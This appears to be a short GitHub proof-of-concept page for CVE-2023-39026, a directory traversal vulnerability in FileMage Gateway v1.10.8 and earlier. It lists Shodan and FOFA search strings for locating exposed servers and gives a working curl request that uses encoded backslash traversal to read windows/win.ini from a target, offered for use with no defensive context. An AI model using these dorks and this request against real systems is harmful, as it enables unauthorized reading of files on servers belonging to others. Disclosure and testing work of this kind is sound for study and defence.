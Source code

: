 # CVE-2023-39026

![](https://img.shields.io/static/v1?label=Product&message=FileMage%20Gateway&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=v.1.10.8%20and%20before&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%20%20Directory%20Traversal&color=red)

- Shodan dork:
```
http.favicon.hash:"-209293751"
```
- FOFA dork:
```
icon_hash="-209293751"
```

### Curl PoC
```
curl -k -X 'GET' "http://target_ip_address:port/mgmnt/..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5 cwindows%5cwin.ini"
```

